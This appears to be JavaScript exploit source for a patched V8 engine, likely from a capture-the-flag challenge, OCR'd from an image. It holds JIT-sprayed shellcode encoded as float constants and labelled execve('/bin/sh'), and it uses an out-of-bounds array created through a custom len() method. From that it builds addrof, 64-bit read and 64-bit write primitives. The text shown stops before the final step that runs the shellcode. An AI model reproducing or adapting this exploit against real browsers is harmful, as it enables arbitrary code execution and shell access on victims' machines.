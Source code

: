 /* converts a float to a 64-bit uint */
function ftoi(x) {
  fs[0] = x;
  return is[0];
}

/* converts a 64-bit uint to a float */
function itof(x) {
  is[0] = x;
  return fs[0];
}

/* execve("/bin/sh", 0, 0); */
const foo = () => {
  return [
    1.9711828979523134e-246,
    1.9562205631094693e-246,
    1.9557819155246427e-246,
    1.9711824228871598e-246,
    1.971182639857203e-246,
    1.9711829003383248e-246,
    1.9895153920223886e-246,
    1.971182898881177e-246
  ];
}

for (let i = 0; i < 0x40000; i++)
  foo();

/* create an oob array */
let oob = [1.1];
oob.len(1337);

/* flt.elements @ oob[6] */
let flt = [1.1];

/* obj.elements @ oob[15] */
let tmp = {a: 1};
let obj = [tmp];

/* addrof primitive */
function addrof(o) {
  oob[6] = oob[15]; 
  obj[0] = o;
  return (ftoi(flt[0]) & 0xffffffffn) - 1n;
}

/* 64-bit read primitive */
function read(p) {
  let a = ftoi(oob[6]) >> 32n;
  oob[6] = itof((a << 32n) + p - 8n + 1n);
  return ftoi(flt[0]);
}

/* 64-bit write primitive */
function write(p, x) {
  let a = ftoi(oob[6]) >> 32n;
  oob[6] = itof((a << 32n) + p - 8n + 1n);
  flt[0] = itof(x);
}

